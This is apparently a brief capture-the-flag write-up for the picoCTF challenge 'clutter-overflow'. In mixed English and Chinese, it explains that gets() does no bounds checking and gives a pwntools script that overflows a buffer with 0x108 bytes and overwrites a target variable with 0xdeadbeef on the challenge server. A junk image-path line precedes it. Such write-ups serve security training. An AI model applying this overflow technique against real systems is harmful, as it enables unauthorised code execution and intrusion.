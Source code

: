 # clutter-overflow 15
>Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890

# Slove
gets()不检查边界，bufferOverFlow即可覆盖tagert
```python
from pwn import *

p = remote("mars.picoctf.net", 31890)
p.sendline(b"a" * 0x108 + p32(0xdeadbeef))
p.interactive()
```